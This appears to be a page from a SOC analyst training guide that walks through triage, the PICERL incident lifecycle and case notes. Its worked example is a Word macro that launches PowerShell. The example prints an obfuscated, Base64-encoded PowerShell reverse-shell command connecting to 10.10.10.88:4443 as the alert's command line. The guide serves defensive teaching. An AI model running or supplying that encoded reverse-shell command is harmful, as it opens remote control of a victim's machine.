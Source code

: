 ```yaml
---
layout: default
title: "06: The Anatomy of an Investigation"
nav_order: 7
permalink: /anatomy-of-investigation/
---
```


## Part 1: The First 5 Minutes: Triage and Prioritization

**Goal:** To learn how to perform "triage" on a new alert to quickly determine if it's a real fire, a false alarm, or something in between.

### Key Concepts (The Theory)

- **Triage:** The process of sorting new alerts based on severity and priority to ensure the most critical threats are handled first.
- **Alert Fidelity:** The trustworthiness of the alert source. An alert from your EDR for "Known Ransomware" is high-fidelity. An alert for "User logged in from a new country" is lower fidelity, as it could be legitimate travel.
- **Severity vs. Priority:**
  - **Severity:** How bad the event _could_ be (e.g., High, Medium, Low). This is often set by the tool.
  - **Priority:** The order in which _you_ should handle it. This is determined by the analyst, combining severity with business context.

### The Initial Triage Checklist

When a new alert hits your queue, you should quickly try to make an initial assessment. Run through these questions:

1.  **What is the alert?** (e.g., "PowerShell spawned from non-standard process," "Impossible travel detected.")
2.  **What is the asset?** Is it a domain controller, a web server, or a standard user's laptop? An alert on a critical server is always a higher priority.
3.  **Who is the user?** Is it a standard user, a developer, an executive (VIP), or a domain administrator? An alert on an admin account is extremely high priority because their credentials grant broad access.
4.  **What is the assigned severity?** (High, Medium, Low).

- **Analyst Tip:** The goal of triage is not to solve the case but to decide what to work on next. A `Medium` severity alert on a domain controller is a higher priority than a `High` severity alert on a test machine that's scheduled to be wiped tomorrow. Context is everything.

---

## Part 2: The Investigation Lifecycle (PICERL)

**Goal:** To use the industry-standard PICERL framework to structure an investigation from start to finish. PICERL stands for **P**reparation, **I**dentification, **C**ontainment, **E**radication, **R**ecovery, and **L**essons Learned.

### A Running Example: The Suspicious PowerShell Alert

Let's use a single alert and walk it through the lifecycle:
**The Alert:** `High Severity: powershell.exe spawned by WINWORD.EXE on workstation WKS-1337, user: bart.simpson`

---

### **Phase 1: Identification**

This is where you confirm if the alert is a **True Positive** (a real incident) or a **False Positive**. This phase uses a mini-loop of Observe-Orient-Decide-Act.

1.  **Observe (Gather the raw facts):**

    - **Host:** WKS-1337
    - **User:** bart.simpson
    - **Process:** `powershell.exe`
    - **Parent Process:** `WINWORD.EXE`
    - **From the EDR logs, you pull the full command line:** `powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQAwAC4AOAA4ACIALAA0ADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUA MwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAe...`

2.  **Orient (Give the facts context):**

    - The parent process is Word. This is highly suspicious. Word should not be launching PowerShell. This is a classic indicator of a malicious macro. **(T1566.001: Spearphishing Attachment)**
    - The `-enc` flag means the command is Base64 encoded. This is a common technique for **Obfuscated Files or Information (T1027)**.
    - You decode the Base64 string. It reveals a PowerShell reverse shell script trying to connect to IP `10.10.10.88` on port `4443`. This is a **Reverse Shell (T1059.001: PowerShell)**.
    - You check the destination IP `10.10.10.88`. It's an internal, non-routable IP. This suggests the attacker may already have a foothold inside the network and this is an attempt at **Lateral Movement (TA0008)**.

3.  **Decide (Form a hypothesis):**
    - This is a **True Positive**. The user likely opened a malicious Word document, which executed a macro to launch a PowerShell reverse shell, a common technique for **Execution (TA0002)**, attempting to connect to an internal C2 server.

---

### **Phase 2: Containment**

**Goal:** Stop the bleeding! Prevent the attacker from causing more damage.

- **Action:** Based on your decision, you take immediate action. Using your EDR console, you trigger the **"Isolate Host"** function for `WKS-1337`. This uses the EDR agent to block all network connections on the workstation _except_ for the connection back to the EDR management server, so you can still investigate it remotely.
- **Action:** You also temporarily disable the `bart.simpson` user account in Active Directory / Entra ID to prevent the attacker from using stolen credentials to log in elsewhere.

---

### **Phase 3 & 4: Eradication and Recovery**

**Goal:** Remove the attacker from the environment and restore the system to a known-good state. This is often handled by a different team.

- **Eradication:** The original malicious file (`phish.docx`) is deleted. Any other files or persistence mechanisms created by the attacker are removed.
- **Recovery:** The workstation is wiped and re-imaged from a clean, golden image. This is the only way to be 100% sure the attacker is gone. The user account is re-enabled with a new password.

---

### **Phase 5: Lessons Learned**

**Goal:** Improve your defenses so this doesn't happen again.

- A post-incident meeting is held. Questions to ask:
  - How did the malicious email get past our email security gateway?
  - Why was the user able to run macros?
  - Did our EDR alert quickly enough?
- **Outcomes:** You might create a new rule in the email filter to block similar attachments, or push a new policy to disable macros for most users.

---

## Part 3: Case Management and Escalation

**Goal:** To understand the importance of good documentation and know when to ask for help.

### A Good Case Note

Your notes should be clear enough that a teammate can pick up the investigation right where you left off.

> **14:32 UTC:** Initial alert triage. High-severity alert for PowerShell spawned from WINWORD.EXE on WKS-1337 (user: bart.simpson). Given the TTP, immediately began investigation.
>
> **14:35 UTC:** Pulled command line from EDR. Confirmed use of Base64 encoding (`-enc` flag).
>
> **14:37 UTC:** Decoded Base64 payload. Revealed PowerShell reverse shell attempting connection to internal IP `10.10.10.88:4443`.
>
> **14:38 UTC:** **Declared incident.** This is a True Positive.
>
> .
> **14:39 UTC:** **Containment:** Isolated host WKS-1337 via EDR console. Temporarily disabled user `bart.simpson` in AD.
>
> **14:40 UTC:** **Escalation:** Escalated ticket to Tier 2 Incident Response team for eradication and recovery. Notified SOC lead.

### When to Escalate

- As soon as you **declare an incident** (confirm a True Positive).
- If the alert involves a VIP user or a critical system (e.g., a domain controller).
- If you are about to take a significant action you are unsure about.
- If you are stuck for more than 15-20 minutes on the "Identification" phase. It's better to get a second pair of eyes than to let an attacker dwell in the network.
